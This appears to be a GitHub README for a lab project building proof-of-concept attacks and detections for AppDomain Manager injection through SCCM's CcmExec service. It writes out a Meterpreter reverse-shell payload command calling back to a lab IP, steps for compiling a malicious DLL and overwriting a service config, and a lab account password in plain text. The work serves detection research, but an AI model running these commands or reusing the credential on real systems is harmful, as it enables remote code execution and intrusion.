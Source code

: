 # AppDomainMgrDetections
A sampling of PoC's and developed detections for AppDomain Manager exploit

## Testing Process
- Generate C2 framework payload
  - sudo msfvenom -p windows/x64/meterpreter/reverse_http -f raw -o meterpeter.bin LHOST=10.9.253.6 LPORT=8080
- Encode to 64 bit payload
  - base64 meterpeter.bin > meterpeterb64
- Place encoded payload in AppDomainManager.cs POC
- Compile 'meterpeter.dll'
  - C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:meterpeter.dll AppDomainManager.cs
- Use meterpeter.config
  - Ensure `<appDomainManagerAssembly value="meterpeter">`
- Run status check
  - python3 ccmexec.py -debug sccmlab.local/sccmclientpush:cieph3Iehe7K@10.10.0.152 status
- Run exploit
  - python3 ccmexec.py -debug sccmlab.local/sccmclientpush:cieph3Iehe7K@10.10.0.152 exec -config templates/meterpeter.config -dll meterpeter.dll

## Troubleshooting
- Victim connectivity test
  - Test-NetConnection -Computername 10.9.253.6 -Port 8080

## Diagrams
### CCMPwn
![CCMPwn_process](image.png)

Git Location: https://github.com/mandiant/CcmPwn
#### Mermaid
```mermaid
sequenceDiagram

    participant Attacker

    participant Victim

    participant SMS Server

    %% ->> SMB Connection
    %% -->> RPC Connection
    %% -> Notes

    %% Code
    Attacker->Attacker: Code Start
    Attacker-->>Victim: ncacn_np:%IP%\pipe\svcctl
    Attacker-->Victim: Kerberos or NTLM Auth
    Victim->Victim: RPC 'lpScHandle' for 'CcmExec'
    Attacker-->>Victim: Stop CC service
    Attacker->>Victim: Read/Download C$\Windows\CCM\SCNotification.exe.config
    Victim->>Attacker: 
    Attacker->>Victim: Overwrite malicious config
    Attacker->>Victim: Put malicious .dll 
    Attacker->Victim: Edit .dll permissions
    Attacker-->>Victim: Start CCM Service
    Victim-->Victim: SCNotification.exe Read/Execute SCNotification.exe.config **CONFUSED**
    Victim-->>Attacker: Payload executes
    Victim-->>SMS Server: DNS Query Site Server
```
### SharpSCCM vs CCMPwn
![SharpSCCM vs CCMPwn](image-1.png)

#### Mermaid
```mermaid
flowchart TB
    subgraph CCMPwn
        A[Attacker] -->|SMB Put File| V[Victim]
        V -->|Executes policy/script| E[Exploit]
    end

    subgraph SharpSCCM
        A2[Attacker] -->|WMI Policy Change to add script to device| SS[Site Server]
        SS -->|Communicates policy to device| V2[Victim]
        V2 -->|Executes policy/script| E2[Exploit]
    end
```

## Notes
sccmclientpush\ cieph3Iehe7K
Test1 (Dll w/no AppDomain, Fail)
09:09: Ran Exec
09:10:12 Start CCMExec Service
09:10:42 Cleanup SCNotification.exe.config


Test2
03:51:43 start 
3:52:06 start ccm
3:52:35scn run config

Test3 (Testing for callbacks/Sysmon logs)
04:05:18 start

Accounts:
sccmlab.local\Administrator


sccmlab.local\john
